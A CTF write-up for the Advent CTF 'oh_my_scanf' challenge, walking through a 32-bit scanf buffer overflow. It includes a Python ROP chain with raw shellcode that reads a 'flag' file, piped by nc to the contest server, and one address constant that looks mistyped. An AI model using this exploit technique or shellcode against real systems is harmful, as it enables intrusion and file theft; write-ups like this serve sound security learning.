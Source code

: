 ### Solved by barrebas, swappage, superkojiman

Another month, another CTF! This Advent CTF runs almost the entire month of December. This challenge seemed easy at first, but turned out to be a bit more tricky!

We're given a vulnerable binary plus the C source:

```c
/* gcc -m32 -fno-stack-protector -zexecstack -o oh_my_scanf oh_my_scanf.c */
#include <stdio.h>

int main(void) {
    char name[16];

    setvbuf(stdout, NULL, _IONBF, 0);
    printf("name: ");
    scanf("%s", name);
    printf("hi, %s\n", name);

    return 0;
}
```

This looks pretty straight-forward, right? `scanf`, an executable stack and a small buffer, oh my! A standard buffer overflow:

```bash
bas@tritonal:~/adventctf$ ulimit -c unlimited
bas@tritonal:~/adventctf$ ./oh_my_scanf 
name: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
hi, AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
Segmentation fault (core dumped)
```

I checked `gdb` and `eip` was overwritten with `HHHH`, so we need 28 bytes to overflow the buffer. Next, because the stack is executable, we should be able to jump to it... but how? ALSR is enabled so we don't know the location of the stack. None of the registers contain a pointer to the shellcode, there aren't any `jmp esp` or `call esp` instructions. Bruteforcing it seemed tedious at best. We looked at writing a ROP chain, but there are very few useable gadgets. 

Thinking long and hard together with Swappage and superkojiman, we came up with several strategies. One of the suggestions by Swappage revolved around abusing `scanf` to build shellcode somewhere. superkojiman noticed that the main code section is `rwx`!

```
gdb-peda$ vmmap
Start      End        Perm  Name
0x08048000 0x08049000 r-xp  /home/bas/adventctf/oh_my_scanf
0x08049000 0x0804a000 r-xp  /home/bas/adventctf/oh_my_scanf
0x0804a000 0x0804b000 rwxp  /home/bas/adventctf/oh_my_scanf
0xf7e19000 0xf7e1a000 rwxp  mapped
...snip...
```

Yes, this has to be it! We can write to a section of memory that is executable *and* at a fixed location. After writing shellcode there, we simply jump to it to have our cake *and* eat it.

So I modified a ROP chain that I was fiddling with:

```python
#!/usr/bin/python
import struct

def p(x):
  return struct.pack("<L", x)

SCANF = 0x80483b0a
POPRET = 0x804835d
SCANF_STRING = 0x80495ce

payload = ""
payload += "A"*28

payload += p(SCANF)         # return-to-got, scanf
payload += p(POPRET)        # next return address
payload += p(SCANF_STRING)  # pointer to "%s", arg1 for scanf
payload += p(0x0804a040)    # pointer to readable/executable
                            # arbitrarily chosen section of code
                            # it doubles as return address
payload += "\n"             # close first scanf call

# this modified shellcode below will be read by the scanf call that results from our ROP chain.
# we need the extra "\na" to flush the buffer, i think. 
payload += "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x54\x59\x90\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xffflag\na"

print payload

```

I used a modified version of [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-73.php). The shellcode wasn't working locally, and I narrowed it down quickly to a bad byte, `0x0c`. This was part of the `lea ecx, [esp]` instruction. I exchanged this for:

```bash
bas@tritonal:~/adventctf$ rasm2 - 
push esp
54
pop ecx
59
nop
90
```

And off we went! I verified the exploit remotely by reading `/etc/passwd` and then I guessed the name of the flag file to be `flag`. Simple, really =)

```bash
bas@tritonal:~/adventctf$ python exploit.py | nc pwnable.katsudon.org 32100
name: hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAA..].E.@..
ADCTF_Sc4NF_IS_PRe77Y_niCE
```

The flag was `ADCTF_Sc4NF_IS_PRe77Y_niCE`. In the end, the executable stack turned out to be a red herring and something more unusual was going on. Cool challenge!

